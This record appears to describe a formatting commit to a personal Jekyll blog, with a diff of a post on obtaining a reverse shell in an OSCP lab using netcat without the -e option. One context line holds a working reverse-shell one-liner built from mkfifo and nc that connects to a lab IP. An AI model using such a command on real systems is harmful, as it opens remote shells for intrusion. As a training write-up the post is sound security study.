

Before and after one commit to jkeuper/jkeuper.github.io, a Jekyll site: the page built from _posts/2017-08-26-netcat-without-e.md, in a window 1280 px wide and 1400 px high, scrolled down 791 px. Shown: the top 1219 px of the window at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Fixed minor issues: links/formatting/layout thumbnails

````diff
--- a/_posts/2017-08-26-netcat-without-e.md
+++ b/_posts/2017-08-26-netcat-without-e.md
@@ -12,11 +12,10 @@ Recently in my OSCP course, I was struggeling a few hours to get a reversed shel
 
 <img src="/images/posts/netcat_freebsd.png"
      alt="Netcat on FreeBSD"
-     width="320px"
      class="media pull-right img-thumbnail">
 I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE). All references to netcat without -e suggest you use  After trying harder for many many many tries, I finally came up with the following solution.
 
-1. Use "tail -f" to feed commands from a temporary file to bash. (Using "-n 0" to ignore any current content of the temporary file.)
+1. Use _tail -f_ to feed commands from a temporary file to bash. (Using _-n 0_ to ignore any current content of the temporary file.)
 2. Redirect the output of the shell command to netcat.
 3. Redirect the output of netcat to the temporary file, so the tail command picks it up...
 
@@ -43,7 +42,7 @@ mkfifo pipe; nc -nv 10.11.0.13 443 < pipe | /bin/sh 2>pipe >pipe
 ```
 
 To wrap up, which things slowed me down finding a way to obtain a reverse shell?
-1. Not understanding the "mkfifo pipe" command. This command makes a pipe in the _current_ directory. So not having any rights there, just really does not help...
+1. Not understanding the _mkfifo pipe_ command. This command makes a pipe in the _current_ directory. So not having any rights there, just really does not help...
 2. Forgetting that the & character should be url encoded _and_ not by using &amp;. This made me lose the stderr output, that just really does not help either...
-3. When "uname -a" gives back "FreeBSD ... amd64" you probably should not try your Linux/x86 binaries. Oke, but where/how do I get a FreeBSD/amd64 payload?
-4. Oh, and last: "chmod +x" did not work, "chmod 777" did the job... (◔_◔)
+3. When _uname -a_ gives back "FreeBSD ... amd64" you probably should not try your Linux/x86 binaries. Oke, but where/how do I get a FreeBSD/amd64 payload?
+4. Oh, and last: _chmod +x_ did not work, _chmod 777_ did the job... (◔_◔)
--- a/css/site.css
+++ b/css/site.css
@@ -103,6 +103,9 @@ body {
   letter-spacing: -1px;
 }
 
+img.img-thumbnail {
+  width: 320px;
+}
 
 /* RESPONSIVE CSS
 -------------------------------------------------- */
@@ -143,3 +146,9 @@ body {
     margin-top: 120px;
   }
 }
+
+@media only screen and (max-width : 480px) {
+  img.img-thumbnail {
+    width: 100%;
+  }
+}
````
Also changed, not shown: _posts/2017-08-21-new-website.md (+1 -1 lines), _posts/2017-08-25-exploring-upnp.md (+3 -2 lines), _posts/2017-08-27-patching-with-git.md (+1 -1 lines).
